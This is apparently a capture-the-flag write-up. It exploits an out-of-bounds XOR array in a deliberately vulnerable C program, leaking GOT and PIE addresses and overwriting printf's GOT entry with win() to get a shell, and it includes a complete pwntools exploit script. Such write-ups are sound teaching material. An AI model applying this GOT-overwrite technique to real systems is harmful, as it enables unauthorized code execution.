

The problem can be seen here
The source code of the target program is as below.
// gcc -o main main.c -Wl,-z,norelro
#include
#include
#include
#include
#include
uint64_t arr[64] = {0};
void initialize() {
setvbuf(stdin, NULL, _IONBF, 0);
setvbuf(stdout, NULL, _IONBF, 0);
for (int i = 0; i < 64; i++)
arr[i] = 1ul << i;
}
void print_menu() {
puts("1. XOR two values");
puts("2. Print one value");
printf("> ");
}
void xor() {
int32_t i, j;
printf("Enter i & j > ");
scanf("%d%d", &i, &j);
arr[i] ^= arr[j];
}
void print() {
uint32_t i;
printf("Enter i > ");
scanf("%d", &i);
printf("Value: %lx\n", arr[i]);
}
void win() {
system("/bin/sh");
}
int main() {
int option, i, j;
initialize();
while (1) {
print_menu();
scanf("%d", &option);
if (option == 1) {
xor();
} else if (option == 2) {
print();
} else {
break;
}
}
return 0;
}
Running checksec, I could see that the program had everything enabled except for RELRO, suggesting that I could perform a GOT table overwrite attack.

Using the out-of-bounds vulnerability present in arr, I was able to get the GOT entry of printf and
additionally the base of libc, although the latter was proven to be useless in solving this problem. My plan was to overwrite the
GOT entry of printf with the address of win, but there was a problem: I had to get the base of PIE somehow.
Since the checksec stated that the program had no RELRO, I assumed the GOT entries of registered but unused functions like system
or __stack_chk_fail would point to its PLT stub, allowing me to obtain the PIE base. However my assumption was wrong as
those functions' GOT entries were somehow pre-filled. (I still don't know why though, maybe it's security measure from the server.)
Still, to obtain the base of PIE, I built an exploit script that leaks all the GOT entries and more
via the out-of-bound vulnerability in arr.
I ran that exploit code multiple times and found a pattern: the entry at arr[-35] (and a few more entries looking back)
is always in the range of where the PIE base is normally is.
I attached gdb suspecting the offset of arr[-35] and the base of PIE was fixed, and found out it was indeed fixed to 0x5dc.
Using this info I was able to obtain the base of PIE and the address of win.
My next step was to overwrite the GOT entry of printf with the obtained value.
In my first attempt of doing so, I reconstructed address of win in arr[67],
zeroed out the GOT entry of printf, and overwrote it with the previously obtained value,
but this failed since printf was called between the zeroing out of the GOT entry and the
overwriting of the entry. So in my second attempt I constructed win^printf in arr[67] instead of
win. Now, if we XOR-ed that value to the GOT entry of printf, printf^win^printf = win,
thus, overwriting printf could be done in one go, before any instance of printf was called.
The exploit code is as below.
#!/usr/bin/python3
from pwn import *
def ex():
#context.log_level = "debug"
#p = process("./main")
libc = ELF("./libc.so.6")
p = remote("localhost", 5000)
def get_entry_of_index (idx:int) -> int:
p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"> ", b"%d %d" % (64+idx, 64+idx))
p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"> ", b"%d -%d" % (64+idx, idx))
p.sendlineafter(b"> ", b"2")
p.sendlineafter(b"> ", b"%d" % (64+idx))
got_entry = int(p.recvline().split(b": ")[1], 16)
print(f"arr[{-idx}] = {got_entry:x}")
return got_entry
input()
for i in range(1, 128):
get_entry_of_index(i)
p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"> ", b"65 65")
p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"> ", b"65 -16")
p.sendlineafter(b"> ", b"2")
p.sendlineafter(b"> ", b"65")
printf_got_entry = get_entry_of_index(16)
libc_base = printf_got_entry - libc.symbols["printf"]
print(f"{libc_base=:x}")
p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"> ", b"66 66")
p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"> ", b"66 -35")
p.sendlineafter(b"> ", b"2")
p.sendlineafter(b"> ", b"66")
pie_leak = int(p.recvline().split(b": ")[1], 16)
pie_base = pie_leak - 0x5dc
print(f"{pie_base=:x}")
win_addr = pie_base + 0x13ed
p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"> ", b"67 67")
for i in range(0,63):
b = 2**i
if (b & win_addr) >> i > 0:
p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"> ", b"67 %d" % (i))
p.sendlineafter(b"> ", b"2")
p.sendlineafter(b"> ", b"67")
win_leak = int(p.recvline().split(b": ")[1], 16)
if win_leak == win_addr: print(f"{win_leak=:x} === {win_addr=:x}")
p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"> ", b"68 68")
for i in range(0, 63):
b = 2**i
if (b & (win_addr ^ printf_got_entry)) >> i > 0:
p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"> ", b"68 %d" % (i))
p.sendlineafter(b"> ", b"1")
p.sendlineafter(b"> ", b"-16 68")
p.interactive()
if __name__ == "__main__": ex()